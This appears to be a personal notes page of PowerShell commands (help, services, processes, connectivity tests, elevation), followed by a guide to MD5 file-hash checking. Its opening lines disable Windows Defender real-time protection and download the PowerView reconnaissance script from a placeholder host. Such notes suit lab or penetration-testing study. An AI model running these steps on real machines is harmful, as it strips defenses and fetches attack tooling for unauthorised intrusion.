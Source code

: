 ### 25-Jan-24-Thu

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

```
Invoke-WebRequest http://<ip>:<port>/PowerView.ps1 -OutFile PowerView.ps1
```

```
Get-FileHash somefile.ext
```

```
Get-FileHash somfile.ext -Algorithm MD5
```

```
$psversiontable
```

![image](https://github.com/user-attachments/assets/20e96730-c065-4775-b430-3bc1c80f5979)

```
Get-Help Get-Help
```

![image](https://github.com/user-attachments/assets/7aabfd9f-168e-434d-80d5-d9ee4937fbb3)

```
Get-Help -Name Get-Command -Detailed
```

![image](https://github.com/user-attachments/assets/bba5f21b-42d0-42c2-8ae9-da9146982a39)

```
alias
```

![image](https://github.com/user-attachments/assets/64d4d22c-35ec-4ace-bae2-46925963d014)

```
Get-Process
```

```
Stop-Process -id 12345
```

```
Get-Service |Select-Object Status,Name
```

```
Get-Service | Where-Object Status -eq "Running"
```

```
Get-Service | Where-Object Status -ne "Running"
```

```
 Test-NetConnection google.com
```

![image](https://github.com/user-attachments/assets/36f3e110-51b2-4fbc-b389-3a420a4d6bc1)

```
Test-NetConnection 172.19.4.223 -Port 1514
```

<img width="361" alt="image" src="https://github.com/user-attachments/assets/5c3b31ac-e329-400a-bfa5-bf83a319f738" />

```
Start-Process -Verb RunAs -FilePath "powershell"
```

```
Start-Process -Verb RunAs -FilePath "cmd"
```

# PowerShell Command for MD5 Hash Checking of Files

Here are several ways to check MD5 hashes of files in PowerShell:

## 1. Using Get-FileHash cmdlet (PowerShell 4.0 and later)

```powershell
Get-FileHash -Algorithm MD5 -Path "C:\path\to\your\file.ext"
```

For multiple files:
```powershell
Get-FileHash -Algorithm MD5 -Path (Get-ChildItem "C:\path\to\files\*.*")
```

## 2. Comparing two files' hashes

```powershell
$hash1 = (Get-FileHash -Algorithm MD5 -Path "C:\file1.ext").Hash
$hash2 = (Get-FileHash -Algorithm MD5 -Path "C:\file2.ext").Hash
$hash1 -eq $hash2  # Returns True if hashes match
```

## 3. Verifying against a known hash

```powershell
$fileHash = (Get-FileHash -Algorithm MD5 -Path "C:\file.ext").Hash
$knownHash = "D41D8CD98F00B204E9800998ECF8427E"  # Replace with your known hash
$fileHash -eq $knownHash  # Returns True if matches
```

## 4. Creating a function for quick MD5 checking

```powershell
function Get-MD5Hash {
    param(
        [Parameter(Mandatory=$true)]
        [string]$FilePath
    )
    Get-FileHash -Algorithm MD5 -Path $FilePath | Select-Object Algorithm, Hash, Path
}
```

Usage:
```powershell
Get-MD5Hash "C:\path\to\file.ext"
```

## Notes:
- The `Get-FileHash` cmdlet is available in PowerShell 4.0 and later
- For older PowerShell versions, you would need to use .NET methods
- MD5 is considered cryptographically broken - consider using SHA256 or SHA512 for security-sensitive applications
